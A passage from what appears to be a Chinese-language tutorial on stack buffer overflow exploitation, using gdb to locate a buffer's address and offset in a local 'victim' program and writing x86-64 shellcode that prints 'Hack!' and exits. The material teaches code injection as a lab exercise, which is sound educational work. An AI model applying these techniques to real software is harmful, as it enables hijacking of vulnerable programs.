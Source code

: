 	机器码就是 `\xf4\x0f\x1e\xfa\x89\xf8\x29\xf0\xc3`



我们将用这种方法执行一段简单的程序，该程序仅仅是在终端打印 “Hack!” 然后正常退出。

首先要知道 name 的起始地址，打开 gdb ，对 victim 进行调试，输入 _**gdb -q ./victim**_ ，再输入 _**break *main**_ 在 main 函数的开头下一个断点，再输入 _**run**_ 命令开始运行，如下：

```shell
$ gdb -q ./victim
Reading symbols from ./victim...done.
(gdb) break *main
Breakpoint 1 at 0x400576: file victim.c, line 3.
(gdb) run
Starting program: /home/hcj/blog/rop/ch02/victim 

Breakpoint 1, main () at victim.c:3
3   int main() {
=> 0x0000000000400576 <main+0>: 55  push   rbp
   0x0000000000400577 <main+1>: 48 89 e5    mov    rbp,rsp
   0x000000000040057a <main+4>: 48 83 ec 40 sub    rsp,0x40
(gdb) 
```

此时程序停留在 main 函数的第一条指令处，输入 _**p &name\[0\]**_ 和 _**x/gx $rsp**_ 分别查看 name 的起始指针和此时的栈顶指针 rsp 。

```shell
(gdb) p &name[0]
$1 = 0x7fffffffe100 "\001"
(gdb) x/gx $rsp
0x7fffffffe148: 0x00007ffff7a54b45
(gdb) 
```

得到 name 的起始指针为 0x7fffffffe100 、此时的栈顶指针 rsp 为 0x7fffffffe148 ， name 到 rsp 之间一共 0x48 （也就是 72 ）个字节，这和之前的分析是一致的。

下面来写攻击指令的机器码，首先写出汇编代码：

```asm
[section .text]
        global _start

_start:
        jmp END
BEGIN:
        mov rax, 1
        mov rdi, 1
        pop rsi
        mov rdx, 5
        syscall

        mov rax, 0x3c
        mov rdi, 0
        syscall
END:
        call BEGIN
        DB "Hack!"
```
